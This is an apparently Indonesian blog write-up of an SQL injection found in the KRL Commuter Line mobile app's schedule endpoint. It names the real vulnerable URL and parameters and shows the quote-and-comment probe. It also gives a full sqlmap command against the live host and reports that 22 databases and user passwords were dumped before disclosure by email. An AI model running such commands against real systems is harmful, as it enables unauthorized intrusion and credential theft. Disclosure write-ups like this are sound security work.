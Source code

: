 ```yaml
---
title: SQL Injection at Subdomain krl.co.id (Intercept Application Mobile)
date: 2020-09-29
---
```


![ ](https://miro.medium.com/max/665/1*zkOfhG0Zp6x3FYaRs1S0hQ.png)

Halo semuanya,
Kali ini saya ingin membagikan write up sederhana yang sesuai judul yaa, ok jadi langsung aja yaa.
Apa sih itu Commuter Line Indonesia? selengkapnya ada di [Wikipedia](https://id.wikipedia.org/wiki/KRL_Commuter_Line)

Saya mencari vulnerability nya melalui Intercept di aplikasi KRL Access Mobile, saya intercept menggunakan Burpsuite yang sudah saya konfigurasi agar bisa melakukan intercept http request di aplikasi Android. lalu saya melakukan intercept di bagian schedule and route, seperti ini

![ ](https://miro.medium.com/max/2400/1*vSYZP8d86JDTkF_F8H230Q.jpeg)

Lalu saya mendapatkan request url dan post data nya, berikut data nya

![ ](https://miro.medium.com/max/2400/1*N0WmvrJLyHYetYC0iBAfRA.png)

> Request Url: http://info.krl.co.id//VQFXIQNcRQkEQkdHVh1aW1dfQDhGF0dFRxFRFB8WbVBKTRYIXUZPWUBYTARWTAlWVEBSCV9TSFoAUARUWgMGCTo1MDRjZDI3Mg==
> Post data : no_ka=1465&id_stasiun=BKS

___

Selanjutnya saya mencoba untuk menginjeksi dengan single quote pada parameter no_ka, response nya adalah “500 internal server error”

![ ](https://miro.medium.com/max/2400/1*QI9cE4erO7YKDsY4ZBy_yw.png)

Lalu saya tambahkan ( — -) setelah single quote, maka menampilkan data data normal, berarti menandakan bahwa vulnerability terhadap SQL Injection. awalnya saya tidak yakin vulnerable SQL Injection, sebab respons nya 500 Internal Server Error, tetapi saya menambahkan balance menampilkan data normal.

![ ](https://miro.medium.com/max/2400/1*UA663wzxpLdy3raZfMxMYA.png)

___

Selanjutnya saya scan di SQLMAP dengan command

'''
sqlmap -u "http://info.krl.co.id//VQFXIQNcRQkEQkdHVh1aW1dfQDhGF0dFRxFRFB8WbVBKTRYIXUZPWUBYTARWTAlWVEBSCV9TSFoAUARUWgMGCTo1MDRjZDI3Mg==" --data="no_ka=1465&id_stasiun=BKS" --level 3 --risk 3 --dbs
'''

Maka hasil scannya adalah saya mendapatkan 22 database

![ ](https://miro.medium.com/max/2400/1*sf0XDAPeMlw_LXbDpnjS4Q.png)

Dan 5 Users

!(https://miro.medium.com/max/2400/1*rhfD2OEMFsrUyq-pecfh-w.png)

Beserta Passwordnya

!(https://miro.medium.com/max/2400/1*dhPyZ0hre8jHl2G8vZ2XwQ.jpeg)

___

## Timeline Report

> 4 Agustus, 2020 send report to email commuter.care@krl.co.id

Jangan lupa di share yaa, agar saya bisa untuk memberikan write up sederhana lagi. see you!

Contact me at [About Me](/about)
